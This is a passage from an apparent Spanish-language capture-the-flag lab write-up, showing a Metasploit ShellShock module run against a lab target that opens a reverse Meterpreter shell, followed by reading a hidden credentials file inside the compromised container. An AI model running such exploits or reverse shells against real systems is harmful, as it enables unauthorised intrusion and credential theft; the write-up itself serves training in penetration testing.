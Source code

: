 Ejecuta el módulo:
```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
[*] Started reverse TCP handler on 192.168.100.250:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 192.168.100.46
[*] Meterpreter session 1 opened (192.168.100.250:4444 -> 192.168.100.46:42062) at 2025-03-26 18:08:10 -0600

meterpreter >
```
Y estamos dentro del contenedor.

Esta fue otra forma de aplicar el **ataque ShellShock**.

<br>

<h2 id="SSprototypeP">Aplicando Server Side Prototype Pollution para Ganar Acceso a la Máquina Víctima</h2>

Buscando por ahí, dentro del contenedor, encontramos unas credenciales en un archivo oculto dentro del directorio `/opt`:
```bash
www-data@7159efa19ddb:/opt$ ls -la
ls -la
total 12
drwxr-xr-x 1 root root 4096 Jun  1  2024 .
drwxr-xr-x 1 root root 4096 Mar 26 00:34 ..
-rw-r--r-- 1 root root   27 Jun  1  2024 .credenciales
www-data@7159efa19ddb:/opt$ cat .credenciales
cat .credenciales
....
```
Parecen ser un usuario y contraseña.

Estos no servirán contra el **servicio SSH**, pero sí contra la página que está activa en el **puerto 3333**:

<p align="center">
<img src="/assets/images/THL-writeup-jaulaCon/Captura6.png">
</p>

<br>
